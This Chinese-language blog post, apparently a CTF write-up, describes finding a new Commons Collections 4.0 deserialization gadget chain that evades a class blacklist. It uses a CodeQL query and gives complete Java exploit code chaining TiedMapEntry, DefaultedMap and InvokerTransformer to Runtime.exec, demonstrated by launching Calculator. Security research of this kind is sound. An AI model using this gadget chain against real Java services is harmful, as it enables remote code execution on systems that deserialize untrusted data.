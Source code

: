 # 探寻新CC利用链之旅(下

## 前言

继续接着上文说起，在文末，我们知道现在面临的新挑战就是过滤了以下类：
```
TransformedMap,
PriorityQueue,
InstantiateTransformer,
TransformingComparator,
TemplatesImpl,
AnnotationInvocationHandler,
HashSet,
Hashtable,
LazyMap
```

## 利用链挖掘

在目前互联网上公开的 CC 链 1-11 中，每条链子都用到了其中一到多个类，这意味着我们需要挖一条不一样的链子。在开始挖之前，我们简单回顾一下目前所学习的 CC 链特点：

- CC0：通过`AnnotationInvocationHandler`代理的`memberValues`触发`setValue()`，从而调用`tranaformeredmap`类的`checksetvalue()`，最后触发`transform()`；
- CC1：通过`AnnotationInvocationHandler`代理的`memberValues`的`enteyset()`方法触发`invoke()`方法，从而调用`LazyMap`的`get()`方法，最后触发`transform()`；
- CC2：通过优先级队列`heapify→siftdown`调用到`siftDownUsingComparator()`方法，从而调用`TransformingComparator#compare()`方法（Commons-Collections 4.0才有的特性）触发`transform()`；
- CC3：基于 CC1 进行修改，还是调用`LazyMap`的`get()`方法，最后触发`transform()`，但最后通过`ConstantTransformer`和`InstantiateTransformer`读取`TemplatesImpl`恶意类字节码并实例化；
- CC4：基于 CC2 进行修改，和 CC3 一样改成读取`TemplatesImpl`恶意类字节码并实例化；
- CC5：通过`TiedMapEntry#toString()`方法调用`LazyMap`的`get()`方法，最后触发`transform()`；
- CC6：和 CC5 一样通过`TiedMapEntry`类调用`LazyMap`的`get()`方法，但触发过程改为`TiedMapEntry#hashCode() --> TiedMapEntry#getValue()`
- CC7：通过`Hashtable`反序列化调用`AbstractMapDecorator#equals()`方法，进而调用`AbstractMap#equals()`方法，最后调用`LazyMap`的`get()`方法触发`transform()`；
- CC11：基于 CC6 进行修改，使其支持读取`TemplatesImpl`恶意类字节码并实例化；

写到这里，不难发现 CC 链最终都是在找能够触发`transform()`的调用链，所以我们如果要挖新链，就要往这个方向走。那么如何出发呢？

这里有两个路可以走：

- 通过 IDEA 搜索类的特点，并人工去找可能存在的调用关系
- 通过 Codeql 等白盒工具进行自动化筛选

由于我并没有接触过 Codeql，因此我选择第二条路，借这个机会先简单接触学习一下 Codeql。由于本文是 CC 链的主题，所以这里并不会详细说明如何去使用 Codeql，而是写一个方式方法， 应该会在后续另开一个代码审计专区进行详细学习（又给自己挖一个坑~）。

通过`extractor-java `建立好`commons-collections 4.0`的数据库
![image-20221212111732560](images/image-20221212111732560.png)

然后编写查询规则的 ql 文件，写完对应的查询 Source 和 Sink 规则，记得加上黑名单清洗掉不需要的类
```ql
class Sanitizer extends SerializableMethod {
     Sanitizer() {
         exists(RefType cls |
             this.getDeclaringType() = cls and 
             cls.hasName([
                "TransformedMap",
                "PriorityQueue",
                "InstantiateTransformer",
                "TransformingComparator",
                "TemplatesImpl",
                "AnnotationInvocationHandler",
                "HashSet",
                "Hashtable",
                "LazyMap",
                "PrototypeCloneFactory",
                "CursorableSubList",
                "CursorableLinkedList",
                "FastArrayList",
                "FastHashMap",
                "FastTreeMap",
             ])
         )
     }
 }
```

然后开始查询
![image-20221212112328221](images/image-20221212112328221.png)

这里找一条链开始看
```
1	equals 	TiedMapEntry.java:34:19
2	getValue 	TiedMapEntry.java:22:18
3	get 	DefaultedMap.java:66:18
4	transform 	InvokerTransformer.java:49:18
```

这里我们只关注可以通过`TiedMapEntry#getValue()`调用`DefaultedMap#get()`方法触发`transform()`，跟到`DefaultedMap`类看看
![image-20221212112545670](images/image-20221212112545670.png)

可以清楚的看到，当`map`存在对应的映射关系时，通过`value.transform()`方法进行触发，那么`value`是否可控呢？往前看看
![image-20221212112737530](images/image-20221212112737530.png)

可以看到在`DefaultedMap`类中的实例化方法，`value`由传入的`defaultValueTransformer`参数控制，这不齐活了？这里还需要注意一点，实例化方法`DefaultedMap()`被`protected`修饰，因此我们不能通过 new 等方式进行实例化，需要通过反射进行实例化。

现在可以直接写 exp 了，这里我没有用查询出的方式（equals）触发`DefaultedMap#get()`，而是通过`HashMap`触发`hashCode`的方法，链子如下：
```
Gadget chain:
	    java.io.ObjectInputStream.readObject()
            java.util.HashMap.readObject()
                java.util.HashMap.hash()
                    org.apache.commons.collections4.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections4.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections4.map.DefaultedMap.get()
                            org.apache.commons.collections4.functors.ChainedTransformer.transform()
                            org.apache.commons.collections4.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()

```

编写代码
```java
package com.serialize;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;
import org.apache.commons.collections4.map.DefaultedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/12/11 02:01
 */
public class CommonsCollections4New3 {
    public static void main(String[] args) throws Exception{
        CommonsCollections4New3 commonsCollections4New3 = new CommonsCollections4New3();
        commonsCollections4New3.serialize();
        commonsCollections4New3.unserialize();
    }


    public void serialize() throws Exception {

        String cmd = "open -a Calculator.app";
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建虚假的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap<>();
        // 通过反射实例化DefaultedMap类
        Class cls = Class.forName("org.apache.commons.collections4.map.DefaultedMap");
        Constructor constructor = cls.getDeclaredConstructor(Map.class, Transformer.class);
        constructor.setAccessible(true);
        Map defaultedMap = (DefaultedMap)constructor.newInstance(innerMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(defaultedMap,"keyTest");
        Map expMap = new HashMap<>();
        expMap.put(tiedMapEntry,"valueTest");

        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);

        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out =  new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);

    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

成功执行
![image-20221212113403817](images/image-20221212113403817.png)

完成题目
![image-20221212113426928](images/image-20221212113426928.png)

## 写个结束语吧

前面通过查询结果可以看到并不止这么一条，例如另一条通过`InstantiateFactory`实例化恶意字节码的新链子，不过因为题目过滤了`TemplatesImpl`类所以也没有兴趣去实现，粗看是能实现的，有兴趣的师傅可以自行实现。
![image-20221212113600892](images/image-20221212113600892.png)
